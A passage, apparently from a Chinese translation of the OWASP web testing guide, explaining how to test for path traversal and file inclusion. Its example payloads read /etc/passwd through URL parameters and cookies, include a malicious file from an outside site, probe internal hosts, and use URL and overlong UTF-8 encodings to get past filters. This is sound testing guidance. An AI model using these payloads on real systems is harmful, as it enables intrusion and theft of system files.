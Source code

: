 - 是否可以识别Web应用程序用于动态生成页面或模板的cookie？例如：
  - ```Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower```
  - ```Cookie: USER=1826cc8f:PSTYLE=GreenDotRed```

##### 测试技术
这一阶段要分析Web应用程序中存在的输入验证函数。使用前面的示例，名为getUserProfile.jsp的动态页面从文件中加载静态信息，并将内容显示给用户。

攻击者可以插入恶意字符串"../../../../etc/passwd"，用来访问 Linux/UNIX系统的密码哈希文件。显然，只有失败的验证检查才会允许此类攻击。根据文件系统权限，Web 应用程序本身必须能够读取该文件。

要成功测试此缺陷，测试人员需要了解正在测试的系统以及请求的文件的位置。例如，在windows中，从 IIS Web 服务器请求 /etc/passwd 是没有意义的。

访问示例：```http://example.com/getUserProfile.jsp?item=../../../../etc/passwd```

对于cookie示例：
```Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd```

也可以包括外部网站上的文件和脚本：```http://example.com/index.php?file=http://www.owasp.org/malicioustxt```

如果协议被接受为参数，如上述示例所示，也可以探测本地服务和附近的服务。
```http://example.com/index.php?file=http://localhost:8080``` 或者 ```http://example.com/index.php?file=http://192.168.0.2:9080```

下面的示例将演示如何在不使用任何路径遍历字符的情况下显示 CGI 组件的源代码。
```http://example.com/main.cgi?home=main.cgi```

名为"main.cgi"的组件与应用程序中普通的 HTML 静态文件位于同一目录中。在某些情况下，测试人员需要使用特殊字符（如点"."，空"%00"，...）对请求进行编码，以绕过文件扩展控制或阻止脚本执行。

提示：一个常见错误是，开发人员不希望使用各种形式的编码，因此只对基本编码内容进行验证。如果测试字符串最初不成功，请尝试其他编码方案。

每种操作系统使用不同的字符作为路径分隔符：
- Unix-like 系统：
  - 根目录："/"
  - 目录分隔符："/"
- Windows 系统：
  - 根目录：```<drive letter>:\```
  - 目录分隔符：""或"/"
- 经典 Mac 操作系统：
  - 根目录："<drive letter>:"
  - 目录分隔符：":"

我们应该考虑以下字符编码机制：
- URL 编码和双 URL 编码
  - ```%2e%2e%2f represents ../```
  - ```%2e%2e/ represents ../```
  - ```..%2f represents ../```
  - ```%2e%2e%5c represents ..\```
  - ```%2e%2e\ represents ..\```
  - ```..%5c represents ..\```
  - ```%252e%252e%255c represents ..\```
  - ```..%255c represents ..\```
  -  and so on.
- Unicode/UTF-8 编码（它仅适用于能够接受超长 UTF-8 序列的系统）
  - ```..%c0%af``` 代表 ```../```
  - ```..%c1%9c``` 代表 ```..\```

还有其他操作系统和应用程序框架特定的注意事项。例如，Windows 在分析文件路径时是灵活的。
- Windows shell： 将以下任何一项追加到 shell 命令中使用的路径，在功能上没有差异：
  - 路径末尾的角括号">"和"<"
  - 路径末尾的双引号（正确关闭）
  - 无关的当前目录标记，如```./```或```.```。
  - 具有任意项的无关父目录标记，这些标记可能存在或不存在示例：
    - ```file.txt```
    - ```file.txt...```
    - ```file.txt<spaces>```
    - ```file.txt””””```
```